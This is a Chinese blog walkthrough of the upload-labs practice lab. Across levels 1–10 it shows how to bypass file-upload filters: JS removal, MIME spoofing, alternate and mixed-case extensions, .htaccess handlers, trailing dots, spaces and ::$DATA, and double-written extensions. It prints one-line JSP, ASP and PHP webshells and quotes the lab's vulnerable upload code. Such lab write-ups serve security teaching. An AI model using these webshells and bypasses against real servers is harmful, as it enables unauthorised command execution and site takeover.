

# 论文件上传绕过的各种姿势 - 先知社区

论文件上传绕过的各种姿势

- - -

先来介绍下文件上传漏洞  
**一. 什么是文件上传漏洞**

> Web应用程序通常会有文件上传的功能, 例如在 BBS发布图片 , 在个人网站发布ZIP 压缩 包, 在办公平台发布DOC文件等 , 只要 Web应用程序允许上传文件, 就有可能存在文件上传漏洞

**二.什么样的网站会有文件上传漏洞**

> 大部分文件上传漏洞的产生是因为Web应用程序没有对上传文件的格式进行严格过滤 , 还有一部分是攻击者通过Web服务器的解析漏洞来突破Web应用程序的防护, 后面我们会讲 到一些常见的解析漏洞, 最后还有一些不常见的其他漏洞, 如 IIS PUT漏洞等

**三.文件上传漏洞的危害**

> 上传漏洞与SQL注入或 XSS相比 , 其风险更大 , 如果 Web应用程序存在上传漏洞 , 攻击者甚至可以直接上传一个webshell到服务器上  
> 
> - - -

关于**webshell**

> webshell是以asp、php、jsp等网页文件形式存在的一种命令执行环境，也称其为一种网页后门。一般说来，当Hacker入侵一个网站后，会把这些asp、php木马的后门文件放在该网站的web目录中，和正常的网页文件混杂，其命名可能和正常的文件命名很类似，让人无法第一眼通过文件名判断其为后门文件。然后呢，他就可以利用web请求的方式，用asp或者php木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等一系列操作。

**webshell**的分类

> 1.根据文件大小分类：大马和小马(通常指的是一句话木马，能够使用菜刀这类工具去直接连接它)  
> 2.根据脚本名称分类：jsp、asp、aspx、php

几种经典的**webshell:**

1）jsp的简单的webshell:

```plain
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

2）asp的简单的webshell:

```plain
success!!!!<%eval request("cmd")%>
```

3）php的简单的webshell:

-   php经典一句话: `<?php echo shell_exec($_GET['cmd']);?>`
    
    -   中国菜刀：`<?php @eval($_POST['自定义密码']);?> 然后连接菜刀就能直接进服务器了`
    
    好了介绍完这些就开始做题吧(。・∀・)ノ,
    
    - - -
    

**Less-1**  
[](http://img-blog.csdnimg.cn/2019080418580531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
先在本地新建一个webshell文件，然后上传webshell 发现失败  
[](https://img-blog.csdnimg.cn/20190804190905864.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
查看源码发现是JS验证，只能上传`.jpg|.png|.gif`这三种文件格式  
[](https://img-blog.csdnimg.cn/20190804191122183.png)  
对于js验证有三种绕过方法：

1.  使用浏览器插件。删除检测文件后缀的JS代码，然后上传webshell
    
2.  首先把webshell的后缀改成允许上传的.jpg|.png|.gif，绕过JS检测。再抓包把后缀名改成.php,即可上传webshell
    
3.  在前端js判断函数中加上可以上传php文件,或者直接删去这一函数
    

由于是第一题，这里就分别用两种方法绕过演示下 (\*￣3￣)╭

先用第2种：  
把webshell的后缀php改为png  
[](https://img-blog.csdnimg.cn/20190804215416297.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
然后上传，抓包修改后缀为php， 然后forward发包  
[](https://img-blog.csdnimg.cn/20190804215259931.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
上传文件url地址可以在这看到（蓝色选中部分），  
[](https://img-blog.csdnimg.cn/2019080422320517.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
菜刀连接 地址：`http://127.0.0.1/upload-labs-master/upload/webshell.php`  
[](https://img-blog.csdnimg.cn/20190804231308328.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
成功（￣︶￣）↗　  
[](https://img-blog.csdnimg.cn/2019080422360040.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
来看看第三种绕过：

这时要先猜测判断文件后缀的代码是在前端还是后端，打开burp进行拦截，发现点击上传后，并没有进行发包。可知判断后缀的代码在前端，即用js代码判断的，打开浏览器的审查元素，找到文件上传的js代码  
[](https://img-blog.csdnimg.cn/20190804224609581.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
可以看到蓝色选中区有`checkFile()`函数，我们把它删除后再上传

然后同理在F12审查元素中找到路径，菜刀连接。

第一关结束！（提示：上传到upload文件夹的小马别忘删了，因为下面还要用）

**Less-2**

直接上传，失败，提示文件类型不正确  
[](https://img-blog.csdnimg.cn/20190805154127899.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
上传图片发现可以成功  
[](https://img-blog.csdnimg.cn/20190805155600556.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
查看源码：

```plain
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

发现这里采用的是后端验证文件类型, 但是他只过滤的文件类型, 并没有过滤文件后缀名, 所以可以上传 php文件，然后修改 content-type 绕过。  
（可能会有小伙伴问，文件后缀名不就定义了我文件类型了吗，嗯...其实并不是，文件后缀只是决定了双击打开的方式，比如你用photoshop可以打开一个psd图像文件。把这个文件扩展名改为txt，再拖到photoshop窗口里，还是一样能打开，说明内容完全没有变化，变化的只是双击时的默认打开方式。）

可以看到这题的提示：  
[](https://img-blog.csdnimg.cn/20190805160817285.png)  
关于MIME我这里要说一下（百度百科**是错的**哦）：

> -   它全名叫多用途互联网邮件扩展（Multipurpose Internet MailExtensions），最初是为了将纯文本格式的电子邮件扩展到可以支持多种信息格式而定制的。后来被应用到多种协议里，包括我们常用的HTTP协议。
> -   **MIME的常见形式是一个主类型加一个子类型，用斜线分隔。比如text/html、application/javascript、image/png等**。
> -   在访问网页时，MIME type帮助浏览器识别一个HTTP请求返回的是什么内容的数据，应该如何打开、如何显示。

这里采用的判断方式就是MIME后端验证！  
这里有两种绕过方法：↓

> PS：
> 
> -   上传php文件时，Content-Type的值是application/octet-stream；
> -   上传jpg文件时，Content-Type的值是image/jpeg

1.  如果服务器通过Content-Type的值判断文件类型，直接上传php文件(webshell)，抓包，将Content-Type的值修改为image/jpeg，即可上传php文件(webshell)。  
    [](https://img-blog.csdnimg.cn/20190805170542903.jpg)
    
2.  先上传修改后缀名的webshell（webshell.php改为websshell.jpg）进行、抓包修改，后缀名改为webshell.php  
    [](https://img-blog.csdnimg.cn/20190805170131135.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
    然后菜刀连接就行了`~(￣▽￣)~*`
    

**Less-3**

第三题又是一个新类型的题：**黑名单限制文件上传**，不允许上传`.asp|.aspx|.php|.jsp`后缀文件。那么要如何绕过呢？  
这里说下关于Apache的一些知识：

-   Apache的解析顺序是从右到左开始解析文件后缀的，如果最右侧扩展名不可识别，就继续往左判断。直到遇到可以解析的文件后缀为止
-   可以上传例如`php3, phtml`后缀的文件绕过，前提是**Apache**的**httpd.conf**中配置有如下代码:  
    `AddType application/x-httpd-php .php .php3 .phtml`

服务器会将`.php3, .phtml`后缀的文件当成`.php`解析。

步骤：  
先找到**Apache**下的**httpd.conf**文件，然后查找“AddType text/html”，然后在这行代码后面，加上一行`AddType application/x-httpd-php .php .php3 .phtml`即可  
[](https://img-blog.csdnimg.cn/20190805234419319.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
然后直接上传后缀名为`.phtml`的webshell文件，注意这里上传的文件名会改变  
[](https://img-blog.csdnimg.cn/20190805234628997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
连接菜刀  
[](https://img-blog.csdnimg.cn/20190805234742624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
成功（￣︶￣）↗　  
[](https://img-blog.csdnimg.cn/20190805235002925.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
下一题  
**Less-4**  
同样是黑名单过滤，直接看源码吧：

```plain
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

这题很绝，基本上把那些花里胡哨的后缀都过滤了，但是没有包括`.htaccess`，可以利用配合Apache的`.htaccess`文件上传 解析漏洞。

> `.htaccess`文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过`.htaccess`文件，可以实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能IIS平台上不存在该文件，该文件默认开启，启用和关闭在`httpd.conf`文件中配置。

　**启用`.htaccess`**：  
　需要修改`httpd.conf`文件下的配置，查找关键词`AllowOverride`，将后面的**None**改成**All**  
[](https://img-blog.csdnimg.cn/20190806180051350.png)

然后，上传一个`.htaccess`内容如下的文件（抓包时删去文件名）:

```plain
SetHandler application/x-httpd-php
```

[](https://img-blog.csdnimg.cn/20190806180857300.png)  
这样所有文件都会解析为php，然后再上传图片马（我的菜刀好像有问题，就上传图片马吧），就可以解析：

图片马语句：`<?php phpinfo(); ?>`  
[](https://img-blog.csdnimg.cn/2019080618233148.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
成功解析，下一关

**Less-5**

同样是黑名单限制 这关和上一关相比，就多了个`.htaccess`文件，但是查看源码发现这题没有统一大小写，所以就可以利用**大小写绕过**。  
上传文件`webshell.Php`，  
[](https://img-blog.csdnimg.cn/20190806184907184.png)  
上传成功。可以发现文件名又改变了，连接菜刀时要注意哦  
[](https://img-blog.csdnimg.cn/2019080619020413.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
连接成功

**Less-6**  
查看源码发现还是黑名单，但是这关没有对后缀名进行去空格处理，可在后缀名中加空格绕过

```plain
if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
```

上传的`.php`文件 抓包加上空格就行了。  
[](https://img-blog.csdnimg.cn/20190808150945133.png)  
上传成功，查看文件命及路径  
[](https://img-blog.csdnimg.cn/20190808151244363.png)  
菜刀连接，成功。

**Less-7**  
还是黑名单，但是没有对后缀名进行去`.`处理，，可在后缀名中加`.`绕过 ；上传后windows下会自动去掉后缀名中最后的`.`  
[](https://img-blog.csdnimg.cn/20190808153824918.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
菜刀连接，成功。

**Less-8**  
黑名单绕过，对比Less-4可以发现Less8少了这一句；  
[](https://img-blog.csdnimg.cn/20190808165531516.png)  
在php+windows的情况下：如果文件名+`::$DATA`,`::$DATA`之后的数据当成文件流处理,不会检测后缀名 且保持"`::$DATA`"之前的文件名。（原因的话不清楚）  
所以这题的绕过方法为：在文件后缀加`::$DATA`  
抓包，加上后缀就行了。  
[](https://img-blog.csdnimg.cn/20190808165952354.png)  
上传成功。

**Less-9**

我们先来看下Less2的路径拼接代码：

```plain
if (move_uploaded_file($_FILES['upload_file']['tmp_name'], UPLOAD_PATH . '/' . $_FILES['upload_file']['name'])) {
                    $img_path = UPLOAD_PATH . $_FILES['upload_file']['name'];
                    $is_upload = true;
```

再看这一关的代码拼接，

```plain
if (move_uploaded_file($_FILES['upload_file']['tmp_name'], UPLOAD_PATH . '/' . $_FILES['upload_file']['name'])) {
                $img_path = UPLOAD_PATH . '/' . $file_name;
                $is_upload = true;
            }
```

发现5，6，7，8，9关都是一样，路径拼接的是处理后的文件名，导致可以利用类似`.php. .`(两个点号之间有一个空格)绕过  
程序先是删除一个点，再删除一个空格经过处理后，文件名变成`.php.`，即可绕过。  
[](https://img-blog.csdnimg.cn/2019080818171377.png)  
[](https://img-blog.csdnimg.cn/20190808181823973.png)  
上传成功。

**Less-10**  
依旧是黑名单过滤，查看源码：

```plain
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

注意到，这里是将文件后缀名替换为空，于是可以利用双写绕过(不懂的话，百度下`str_ireplace`这个函数)：

```plain
$file_name = str_ireplace($deny_ext,"", $file_name);
```

[](https://img-blog.csdnimg.cn/20190808190553694.png)  
成功上传。  
[](https://img-blog.csdnimg.cn/20190808190700260.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)

- - -

这次就先总结到这吧，一次不想写太长，后面会补上；觉的我总结的还行的话 求关注呦╰(￣ω￣ｏ)
